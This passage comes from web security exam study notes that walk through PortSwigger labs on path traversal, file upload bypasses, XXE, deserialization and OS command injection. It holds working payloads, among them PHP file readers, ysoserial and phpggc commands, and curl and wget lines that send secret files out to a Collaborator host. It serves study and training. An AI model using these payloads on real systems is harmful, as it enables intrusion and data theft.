3. [PortSwigger Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)  
4. [PortSwigger Lab: File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)  
5. [PortSwigger Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)  

   

>BSCP Exam challenge ***identified***, after obtaining admin session access, you can read `/etc/passwd` and `/etc/hostname` but as soon using same bypass file path traversal technique, the `home/carlos/secret` give response `403 Forbidden`.  
   
### Admin Portal Files  

>On the admin portal ***identify*** that the images are loaded using **imagefile=** parameter. Test if vulnerable to directory traversal. The imagefile parameter is vulnerable to directory traversal path attacks, enabling read access to arbitrary files on the server.  

```html
GET /admin_controls/metrics/admin-image?imagefile=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```  

>Note: Add the fuzzing path traversal payload from drop-down list option, ***Add from list ...***. Then set processing rule on the provided payload to replace the FILE place holder with reg-ex ```\{FILE\}``` for each of the attacks.  

  

>Burp Intruder provides a predefined payload list, as example **"Fuzzing - path traversal"**.  
  
[PortSwigger Academy File-path-traversal](https://portswigger.net/web-security/file-path-traversal)  

[403bypasser](https://www.geeksforgeeks.org/403bypasser-bypass-403-restricted-directory/)  

```
python3 403bypasser.py -u https://TARGET.net -d /secret
```

### Path Traversal Authz  

>Adding Headers in request with value `127.0.0.1` or `localhost` can also help in bypassing restrictions.  

```html
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost

X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```  

[HackTricks Bypass 403 Forbidden paths](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses)  

-----

## File Uploads  
  
[Bypass Upload Controls](#bypass-upload-controls)  
[XXE via SVG Image upload](#xxe-via-svg-image-upload)  
[Remote File Inclusion](#remote-file-inclusion)  
[XSS SVG Upload](#xss-svg-upload)  
[Race Condition Web shell upload](#race-condition-web-shell-upload)  
[HackTheBox CPTS File Uploads](https://github.com/botesjuan/cpts-quick-references/blob/main/module/File%20Upload%20Attacks.md)

### Bypass Upload Controls  
  
>A vulnerable image upload function or avatar logo upload, can by exploited and security controls bypassed to upload content to extract sensitive data or execute code server side.  

>***Identify*** any type of file upload function.  

  

>The PHP `source code` of the exploit.php file below will read the `/home/carlos/secret` sensitive information.  

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```  

>File upload vulnerabilities bypass techniques:  
  
1. Upload the file name and include obfuscated path traversal `..%2fexploit.php` and retrieve the content `GET /files/avatars/..%2fexploit.php`.  
2. Upload a file named, `exploit.php%00.jpg` with trailing null byte character and get the file execution at `/files/avatars/exploit.php`.  
3. Create **polygot** using valid image file, by running the command in bash terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php`. Once polygot is uploaded, view the extracted data by issuing a GET request to the uploaded path `/files/avatars/polyglot.php` , and search the response content for the phrase `START` to obtain the sensitive data.  
4. Upload two different files. First upload `.htaccess` with Content-Type: `text/plain`, and the file data value set to `AddType application/x-httpd-php .l33t`. This will allow the upload and execute of second file upload named, `exploit.l33t` with extension `l33t`.  
5. MIME type `image/jpeg` or `image/png` is only allowed. Bypass the filter by specifying `Content-Type` to value of `image/jpeg` and then uploading `exploit.php` file.  
6. If target allow [Remote File Include](#remote-file-inclusion) (RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: `GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>`. The file name on exploit server could read `image.php%00.gif`.  
  
>Matching file upload vulnerable labs:  
  
1. [PortSwigger Lab: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)  
2. [PortSwigger Lab: Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)  
3. [PortSwigger Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)  
4. [PortSwigger Lab: Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)  
5. [PortSwigger Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)  
  
  

>This [intigriti walkthrough](https://youtu.be/QHhn0-ermck) great explanation of file upload lab.  

### XXE via SVG Image upload  

>***Identify*** image upload on the blog post function that accept **svg** images, and observe that the avatars already on blog `source code` is **svg** extensions.  

>The content of the image.svg file uploaded:  

```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```  
  
  
  
[PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)  

### Remote File Inclusion  

>RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be ```HTTPS``` and the file **extension** is checked, but the MIME content type or file content is maybe not validated. Incorrect RFI result in response message, `File must be either a jpg or png`.  

>Methods to bypass extension validation:  

1. Extension with varied capitalization, such as .```sVG```  
2. Double extension, such as ```.jpg.svg``` or ```.svg.jpg```  
3. Extension with a delimiter, such as ```%0a, %09, %0d, %00, #```. Other examples, ```file.png%00.svg``` or ```file.png\x0d\x0a.svg```  
4. Empty filename, ```.svg```  
5. Try to cut allowed extension with more than the maximum filename length.  

>Below scenario could be exploited using [SSRF](#ssrf---server-side-request-forgery) or RFI. Did not solve this challenge.....  

```
POST /admin-panel/admin-img-file
Host: TARGET.net
Cookie: session=AdminCookieTokenValue
Referer: https://TARGET.net/admin-panel

csrf=u4r8fg90d7b09j4mm6k67m3&fileurl=https://EXPLOIT.net/image.sVg
```  

```
POST /admin-panel/admin-img-file
Host: TARGET.net
Cookie: session=AdminCookieTokenValue
Referer: https://TARGET.net/admin-panel

csrf=u4r8fg90d7b09j4mm6k67m3&fileurl=http://localhost:6566/
```  
  
  
  
>I am missing some key info and need to ***identify*** PortSwigger research about RFI.  
  
### XSS SVG Upload  

>Uploading of SVG file that contains JavaScript that performs cross site scripting attack.  

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```  

### Race Condition Web shell upload  

>Image upload function ***identified*** on profile page.  

>White box penetration test scenario, the vulnerable ***source code*** that introduces this race condition is supplied by the client for the target:  

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```  

>The uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete.  

>PHP Payload to read the secret data `<?php echo file_get_contents('/home/carlos/secret'); ?>`  

>Right-click on the failed upload `POST /my-account/avatar` request that was used to submit the PHP Payload file upload and select ***Extensions > Turbo Intruder > Send to turbo intruder.***
>The Turbo Intruder window opens. Copy and paste the following race condition inducing script template into Turbo Intruder's Python editor:

  

>Race script template into Turbo Intruder's Python editor:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST POST /my-account/avatar HTTP/2 filename="read-secret.php"'''

    request2 = '''<YOUR-GET-REQUEST> GET /files/avatars/read-secret.php HTTP/2'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```  

>results list, notice that some of the GET requests received a 200 response containing Carlos's secret.  
  

[PortSwigger Lab: Web shell upload via race condition](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)  

-----

## Deserialization  

[CustomTemplate PHP](#customtemplate-php)  
[Burp Deserialization Scanner](#burp-deserialization-scanner)  
[YsoSerial](#ysoserial)  
[SHA1 HMAC Symfony](#sha1-hmac-symfony)  
  
### CustomTemplate PHP  

>Reading page `source code` and noticing comment mentioning **<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->**, this ***identify*** possible PHP framework and the Burp scanner ***identify*** serialized session cookie object after we logged in with stolen ```wiener:peter``` credentials.  

  

>Reviewing PHP `source code` by adding tilde ***~*** character at end of GET request ```https://target.net/libs/CustomTemplate.php~```, we notice the **destruct** method.  

  

>Original Decoded cookie 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bi0egmdu49lnl9h2gxoj3at4sh3ifh9x";}
```  

>Make new PHP serial CustomTemplate object with the **lock_file_path** attribute set to **/home/carlos/morale.txt**. Make sure to use the correct data type labels and length indicators. The 's' indicate string and the length.

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```  

  
  
[PortSwigger Lab: Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)  
  
### Burp Deserialization Scanner  

>Intercept the admin panel page in the Burp Practice Exam, and ***identify*** the serial value of the cookie named `admin-prefs`. This challenge is from the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html).  

  

>Use below payload in the Deserialization scanner exploiting Java jar ysoserial command, to obtain remote code execution (RCE) when payload de-serialized on target.  
 
```
CommonsCollections3 'wget http://Collaborator.net --post-file=/home/carlos/secret'
```  

>Image below is from the Practice exam, I have some issues with my setup as the old version of java is needed when running `ysoserial` in bash terminal, and the Burp Suite Pro app need `sudo` to save the config of the extension.  

  

>Burp Deserialization Scanner configuration when running burp as sudo, leaving the java path to `java` and the ysoserial path to ``. My scanner detect the java deserialization in the burp issue list but not when i run it manual???  

  

### YsoSerial  

>Below is ysoserial command line execution to generate base64 encoded serialized cookie object containing payload.  
  
>**IMPORTANT:** If you get error message when executing ```java -jar ysoserial <Payload>``` saying something in lines of ***java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets***, the switch to alternative Java on Linux with following commands.  

```bash
java --version
update-java-alternatives --list
sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64
java --version
```  

  
  
>Now execute ```ysoserial``` to generate base64 payload, using Java version 11. Replace session cookie with generated base64 payload and URL encode only the key characters before sending request.  

```bash
java -jar /opt/ysoserial/ysoserial.jar CommonsCollections4 'wget http://Collaborator.net --post-file=/home/carlos/secret' | base64 -w 0
```  

  

[PortSwigger Lab: Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)  
  
### SHA1 HMAC Symfony

>***Identify*** that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash. On the home page we discover a developer comment to debug info for ```/cgi-bin/phpinfo.php```, revealing the digital signature to sign new token. Sending invalid cookie session value the error reveals, `Symfony Version: 4.3.6`.  

>**Note:** In BSCP exam not going to run this as it delete the file, but in exam read `source code` to ***identify*** the ```unserialize()``` PHP function and extract content out-of-band using ```PHPGGC```.  

>Exploit steps to perform a PHP deserialization with a pre-built gadget chain.  

1. Request the ```/cgi-bin/phpinfo.php``` file to find the leaked ```SECRET_KEY``` information about the website.  
2. Generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony ```phpggc Symfony/RCE4 exec 'wget http://Collaborator.com --post-file=/home/carlos/secret' | base64 -w 0```.  
3. Construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained.  

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```  
  
4. Execute the php code in terminal, ```php Symfony_insecure_deserial_php.php``` to obtain signed cookie.  

  

>Replace cookie value and send request to get remote code execution (RCE) when cookie is deserialised server side. Ignore the server response ```HTTP/2 500 Internal Server Error```, check the collaborator if data was received.  

[PortSwigger Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)  

-----

## OS Command Injection

+ [Feedback](#feedback)  
+ [Output redirection](#output-redirection)  
+ [HackTheBox Academy CPTS OS Command Injection](https://github.com/botesjuan/cpts-quick-references/blob/main/module/command%20injection.md)  

### Feedback  

>Use following command separation characters to ***identify*** Operating System Command injection vulnerabilities.  

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```  

>The target application **submit feedback** function require email value, and ***identifying*** blind OS command injection by appending ```||curl COLLABORATOR.net||``` bash command, we then can observe a request made to Collaborator.  
  
```bash
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```  

>The below payload use DNS exfiltration and the Burp Collaborator DNS service.  

```
||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||
```  

>In this YouTube video [Leet Cipher](https://youtu.be/o7oVWXw4t5E) show how to use DNS rebinding with blind command injection to exfiltration the contents of `passwd` from the target by first uploading bash script that Base64 and then Base58 encode the `passwd` file content, to strip special character not able to ex-filtrate with DNS label restrictions.  

  

[leetCipher Github scripts for Blind OS DNS exfiltrate](https://github.com/leetCipher/bug-bounty-labs/tree/main/dns-exfiltration-lab/poc)  
  
>PortSwigger Lab payload perform a DNS lookup using `nslookup` as a Burp Collaborator subdomain.  

```
email=peanut2019@nuts.net||nslookup+`whoami`.COLLABORATOR.NET||
```  

[PortSwigger Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)  
  
### Output redirection  

>If OS command injection ***identified***, and filter in place preventing complex command injection, attempt to redirect output to writable folder. ***Identify*** a [path traversal](#file-path-traversal) vulnerability that allow reading of files only in current WEB APP.  

>***Identify*** the working directory using `pwd` command output redirected, and appending to `output.txt` file every bash command stdout.  

```
||pwd>output.txt||
||echo>>output.txt||
||cat+/etc/hosts>>/var/www/images/output.txt||
||echo>>output.txt||
||ls+-al>>/var/www/images/output.txt||
||echo>>output.txt||
||whoami>>/var/www/images/output.txt||
```  

>Use working directory discovered using above `pwd` command to redirect output and read content.  

  

>Get output file content.  

```
GET /image?filename=output.txt HTTP/2
```  
  
[PortSwigger Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)  

-----

# Appendix  

>This section contain **additional** information to solving the PortSwigger labs and approaching the BSCP exam, such as the Youtube content creators, Burp speed scanning technique, python scripts and [Obfuscation](#obfuscation) techniques to bypass filters.   

[Obfuscation](#obfuscation)  
[Python Scripts](#python-scripts)  
[Focus Scanning](#focus-scanning)  
[Approach](#approach)  
[YouTube & Extra Training Content](#extra-training-content)  
[Convert epoch time to milliseconds from human readable may be in exam](https://www.epochconverter.com/)  

## Obfuscation  

>Obfuscation is the action of making something obscure, unclear, or unintelligible.  

>URL and Base64 online encoders and decoders.  
  
+ [URL Decode and Encode](https://www.urldecoder.org/)  
+ [BASE64 Decode and Encode](https://www.base64encode.org/)  
  
>URL replacing the period character ```.``` with encoded value of ```%2e```.  

>Double-encode the injecting payload.  
  
```
/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```  

>HTML encode one or more of the characters. In video by [z3nsh3ll: Payload obfuscation with HTML encoding](https://youtu.be/-4ia_L-uLGY) he explain post analysis of the lab Stored XSS into `onclick` event.  

```html

```  

>XML encode for bypassing WAFs  

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
         999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

>Multiple encodings together  

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```  

>SQL CHAR  

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```

[Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)

-----  

## Python Scripts  

>Python script to ***[identify](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python/identify)*** vulnerabilities in the exam and provide indicators of exploits.  

[Python Script to ***identify*** possible vulnerabilities in headers, cookies or the response body](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python/identify)  

[Lab Automated Python Scripts](python/README.md)  

[Automate the solving of the labs using python scripts](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python)  

## Approach  

>Tips from [Daniel Redfern](https://youtu.be/Lbn8zQJByGY?t=551) is best I have come access explaining fundamental mechanics in BSCP exam, especially Tip 7, only one active user per application and if you reach stage 2 and you did not use interactive exploit in stage 1 that required the **Deliver to Victim** function of the exploit server, then use an interactive exploit on stage 2 to reach admin user role.  
  
>When stuck in BSCP exam, reference the below [Micah van Deusen blog tip 5 table of category to stages](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/) for ways to progress through the stages.  

  
  
### Identified  
  
>The image below is my view of possible vulnerabilities ***identified*** and exploitation to reach the next BSCP exam stage and progress through the exam challenges.  
>I have managed solve the challenges in green using the [PortSwigger Academy Labs](https://portswigger.net/web-security/all-labs), but we never stop learning......  

<a href="https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/extras" target="_blank"></a>
  
## Extra Training Content  
  
>Some great links to YouTube content creators training material and links to study stuff.  

- [My YouTube BSCP Study Playlist](https://youtube.com/playlist?list=PLsDxQTEdg_YkVMP6PybE7I-hAdhR7adem)  
- [Cookies, Sessions, JSON Web Tokens (JWT) Explained](https://youtu.be/uXDnS5PcjCA)  

Youtube Information Security content creators channels (***in no particular order***):  

1. [z3nsh3ll](https://www.youtube.com/@z3nsh3ll/videos)  
2. [TJCHacking](https://www.youtube.com/@tjchacking/videos)  
3. [intigriti](https://www.youtube.com/@intigriti/videos)  
4. [Seven Seas Security](https://www.youtube.com/@7SeasSecurity/videos)  
5. [Rana Khalil](https://www.youtube.com/@RanaKhalil101/videos)  
6. [Tib3rius](https://www.youtube.com/@Tib3rius/videos)  
7. [John Hammond](https://www.youtube.com/@_JohnHammond/videos)  
8. [TraceTheCode](https://www.youtube.com/@TraceTheCode/videos)  
9. [The Cyber Mentor](https://www.youtube.com/@TCMSecurityAcademy/videos)  
10. [Sabyasachi Paul](https://www.youtube.com/@h0tPlug1n/videos)  
11. [bmdyy](https://www.youtube.com/@bmdyy/videos)  
12. [CyberSecurityTV](https://www.youtube.com/@CyberSecurityTV/videos)  
13. [nu11 security](https://www.youtube.com/@Nul1Secur1ty/videos)  
14. [PortSwigger](https://www.youtube.com/@PortSwiggerTV/videos)  
15. [IppSec](https://www.youtube.com/@ippsec/videos)  
16. [Daniel Redfern](https://www.youtube.com/@danielredfern9827/videos)  
17. [LiveUnderflow](https://www.youtube.com/@LiveUnderflow/videos)  
18. [JSONSEC](https://www.youtube.com/@JSONSEC/videos)  
19. [thehackerish](https://www.youtube.com/@thehackerish/videos)  
20. [David Bombal](https://www.youtube.com/@davidbombal/videos)  
  
## Footnote  

>**Perseverance:** is Persistence in doing something despite difficulty or delay in achieving success.  
>The **OSCP** certification taught me to [#TryHarder]() and gave me the foundation penetration testing skills.  
>The **BSCP** exam gave me the next level of web application security analyst knowledge.  
>I hope my notes offer other Information Security Students some guidance and walkthrough tips.  
  
## Burp Exam Results  

>The Burp Suite Certified Practitioner exam is a challenging practical examination designed to demonstrate your web security testing knowledge and Burp Suite Professional skills.  
>My tip when preparing, is to understand the academy labs. Extra work is required as the labs do not always provide the identification of the vulnerability step.  
>In my study notes I document the lab guides from the official PortSwigger academy to make sure I know how to identify the vulnerability, use it in different scenarios and make payloads that show the impact when exploiting the vulnerability. As example crafting a XSS cookie stealer payload instead of just calling the `print` function.  
>The BSCP qualification on my resume demonstrate a deep knowledge of the latest vulnerability classes and how to exploit Web Applications, proving my hacking ability to employers and the community.  
  
